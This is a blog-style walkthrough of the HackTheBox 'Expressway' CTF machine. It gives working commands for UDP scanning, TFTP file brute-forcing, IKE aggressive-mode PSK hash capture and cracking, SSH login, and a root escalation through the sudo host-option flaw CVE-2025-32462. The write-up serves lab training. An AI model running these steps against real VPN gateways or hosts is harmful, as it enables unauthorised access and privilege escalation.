```yaml
---
title: HackTheBox Expressway
by: initialt
date: 2025-10-30 09:42:00 +0100
categories: [CTF, walk-trough, hackthebox]
tags: [ctf, hackthebox, linux hacking, walk-trough]
image:
  path: /assets/img/2025-10-30-HTB-Expressway/banner.png
  alt: HackTheBox Expressway CTF walk-trough

---
```


# Reconnaissance phase

## nmap
I have started with standard nmap scanning to see port 22 open but with a very recent SSH version without any known vulnerability.

```bash
─$ nmap -sV -sC 10.10.11.87                                

22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I tried for a while a brute force attack with Hydra but with no luck.

![Desktop View](/assets/img/2025-10-30-HTB-Expressway/1.png)
_Hydra dead end_

Then I finally realized that I should also scan UDP ports, and yes, there are a few open.

```bash
─$ nmap --open -Pn -sU -v 10.10.11.87

PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp
4500/udp open|filtered nat-t-ike
```

Let's look closer at them

```bash
└─$ nmap -sV -sC -p 68,69,500,4500 -sU 10.10.11.87                                                                                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-29 13:43 EDT
Nmap scan report for 10.10.11.87
Host is up (0.040s latency).

PORT     STATE         SERVICE   VERSION
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp?
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0
4500/udp open|filtered nat-t-ike
```
Two ports are interesting: 69 with the TFTP server and 500 with IKE (Internet Key Exchange) for the initial negotiation of security parameters and keys for a VPN tunnel. This port is also in the banner of the CTF, so it is really obvious we should use it.

# Hacking phase

## tftp

For now I'll focus on TFTP.

```bash
msf > use auxiliary/scanner/tftp/tftpbrute 

msf auxiliary(scanner/tftp/tftpbrute) > run
[+] Found ciscortr.cfg on 10.10.11.87
[+] Found device-config on 10.10.11.87
[+] Found remote-config on 10.10.11.87
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

I was able to download ciscortr.cfg which is a default configuration file for Cisco routers. I am no expert at Cisco devices, but the config looks pretty standard, and in the first line we have information about the OS version:

> version 12.3

I have found that is really old version of software, EOL 2012-03-15. 
![Desktop View](/assets/img/2025-10-30-HTB-Expressway/2.png)
_Really old Cisco OS version_

## IKE exploiting

Given that port 500 UDP is open and that the host is running an outdated version of the Cisco operating system, let's search for some exploits:

```bash
msf > search exploit "cisco IKE"

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  auxiliary/scanner/ike/cisco_ike_benigncertain    2016-09-29       normal     No     Cisco IKE Information Disclosure

msf > use 0
msf auxiliary(scanner/ike/cisco_ike_benigncertain) > set verbose True
verbose => true
msf auxiliary(scanner/ike/cisco_ike_benigncertain) > run
[*] Printable info leaked:
>5..)....a.e..(............8............>5..)....a.e..(.
[+] 10.10.11.87:500 - IKE response with leak
```

We can see that memory is leaking, but I'm not sure how to proceed, so I'll leave it at that point.

After some more digging[^footnote1] I've found ike-scan tool, and I learned about the fact that in IKEv1 if Aggressive Mode is enabled, the VPN may leak the group name and be vulnerable to credential brute-force attacks.

Let's find out:

```bash
└─$ ike-scan -A -Ppsk 10.10.11.87 
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=307ac42af53b930c) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.040 seconds (25.00 hosts/sec).  1 returned handshake; 0 returned notify

└─$ cat psk
9d9bee18d9167808b9fde44ca08230dbb6e30b9f84a6426ec402704e3f5b809ac9f581cf12082373d4df7d14a7e8f2c801aaa0e56ceed4de744524516e364fb05539c0a1b415a0861b5d28ce980be503237f0ce8b2aebc0f897ae85dbc6f5e8e4076a7d4f0b1a95f15c0b6d393ecb34a8a28031d1c69684d54fcd453bcd9dbc5:aa717fe7bc02f3f4dfe950e3982a98aaeee5ad242e32c098a0340a8fce5d9ad82befca3a6d79f5068fc979a1809b94eede761d3b4e76e900d9f99f476f6188178d1a5e2a74ff58edf9e884c341688c40857c730ffec70da029b1519a197868006dca414b6e87ebef15ffd2addcce712b1728689b1c9a8b8aec03632c576f6073:307ac42af53b930c:ae155ce85ee72f4c:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:40bc963b09bdb3ee162c0936b37488a351a8d99e:0d3f95963ac304e06d0af0380f25e1661c11c41186b5f55779075c188155f36e:4c574d5b2b2d49cb7940468e1f2d6abeca4b1---
```

I ran ike-scan in aggressive mode and saved the pskcrack shortcut to the “psk” file.

Now I will try to crack this shortcut using psk-crack.

![Desktop View](/assets/img/2025-10-30-HTB-Expressway/4.png)
_PSK Crack_

Success! But what now? This CTF machine is on the easy level, so I tried to not overthink, and I remembered we have port 22 opened.

## user flag
So let's try these credentials there:

![Desktop View](/assets/img/2025-10-30-HTB-Expressway/3.png)
_SSH as user_


Yeah, that was easy (actually not, but easier than the next steps).

## root flag

At this stage we have user flag, so let's try to escalate, starting by sending LinEnum to the machine.

```bash
scp LinEnum.sh ike@10.10.11.87:/home/ike/LinEnum.sh         
```

Few things are interesting in the output:

1. ike user is member of custom group proxy:

    [-] Current user/group info:
    uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)

2.  Sudo version:

    Sudo version 1.9.17

Which has CVE-2025-32462[^footnote2] vulnerability with low severity, but poking around the system looking for some useful stuff (because I was losing my hope to resolve this) with this command:

```bash
grep -RIn --exclude-dir=proc --exclude-dir=sys --exclude-dir=dev --exclude-dir=run --exclude-dir=tmp --exclude-dir=var/tmp --exclude-dir=lost+found --exclude-dir=mnt --exclude-dir=media --exclude-dir=snap 'expressway' / 2>/dev/null
```

I've found an interesting log with a custom host name **offramp.expressway.htb**:

```
/var/log/squid/access.log.1:22:1753229688.902      0 192.168.68.50 TCP_DENIED/403 3807 GET http://offramp.expressway.htb - HIER_NONE/- text/html
```


I think I could have connected the string to the squid proxy group earlier, but it is what it is.

Let's try to use this CVE:

![Desktop View](/assets/img/2025-10-30-HTB-Expressway/5.png)
_CVE-2025-32462 with another host name_

And here is our root flag:

```bash
ike@expressway:~$ sudo -hofframp.expressway.htb ls /root
root.txt
ike@expressway:~$ sudo -hofframp.expressway.htb cat /root/root.txt
8d886a08e5cf0ae427656f8a3fd36---
```
## conclusions

What I posted here is almost a straight path to the flags, especially the root flag, but it wasn't so easy for me; I've spent the whole day looking for some point where I could start escalating things. Definitely not an easy task for the beginner.


### footnotes


[^footnote1]: Source <https://www.verylazytech.com/network-pentesting/ipsec-ike-vpn-port-500-udp>
[^footnote2]: Source <https://www.cve.org/CVERecord?id=CVE-2025-32462>

